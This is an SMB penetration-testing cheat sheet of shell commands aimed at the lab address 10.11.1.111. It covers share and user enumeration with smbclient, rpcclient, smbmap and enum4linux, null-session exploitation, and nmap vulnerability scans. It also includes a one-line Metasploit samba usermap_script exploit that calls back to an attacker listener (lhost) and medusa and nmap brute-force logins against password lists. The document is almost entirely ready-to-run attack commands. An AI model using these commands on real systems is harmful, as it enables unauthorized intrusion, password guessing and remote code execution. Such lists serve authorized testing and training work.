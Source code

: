 ```
echo exit | smbclient -L \\\\\\\\\\\\\\\\10.11.1.111
smbclient \\\\\\\\\\\\\\\\10.11.1.111\\\\\\\\
smbclient -L //10.11.1.111 -N
nmap --script smb-enum-shares -p139,445 -T4 -Pn 10.11.1.111
smbclient -L \\\\\\\\\\\\\\\\10.11.1.111\\\\\\\\
# If got error "protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED"
smbclient -L //10.11.1.111/ --option='client min protocol=NT1'

# Check null sessions
smbmap -H 10.11.1.111
rpcclient -U "" -N 10.11.1.111
smbclient //10.11.1.111/IPC$ -N

# Exploit null sessions
enum -s 10.11.1.111
enum -U 10.11.1.111
enum -P 10.11.1.111
enum4linux -a 10.11.1.111
#<https://github.com/cddmp/enum4linux-ng/>
enum4linux-ng.py 10.11.1.111 -A -C
/usr/share/doc/python3-impacket/examples/samrdump.py 10.11.1.111

# Connect to username shares
smbclient //10.11.1.111/share -U username

# Connect to share anonymously
smbclient \\\\\\\\\\\\\\\\10.11.1.111\\\\\\\\
smbclient //10.11.1.111/
smbclient //10.11.1.111/
smbclient //10.11.1.111/<""share name"">
rpcclient -U " " 10.11.1.111
rpcclient -U " " -N 10.11.1.111

# Check vulns
nmap --script smb-vuln* -p139,445 -T4 -Pn 10.11.1.111

# Multi exploits
msfconsole; use exploit/multi/samba/usermap_script; set lhost 192.168.0.X; set rhost 10.11.1.111; run

# Bruteforce login
medusa -h 10.11.1.111 -u userhere -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -M smbnt
nmap -p445 --script smb-brute --script-args userdb=userfilehere,passdb=/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt 10.11.1.111  -vvvv
nmap –script smb-brute 10.11.1.111

# nmap smb enum & vuln
nmap --script smb-enum-*,smb-vuln-*,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-protocols -p 139,445 10.11.1.111
nmap --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse -p 139,445 10.11.1.111

# Mount smb volume linux
mount -t cifs -o username=user,password=password //x.x.x.x/share /mnt/share

# rpcclient commands
rpcclient -U "" 10.11.1.111
    srvinfo
```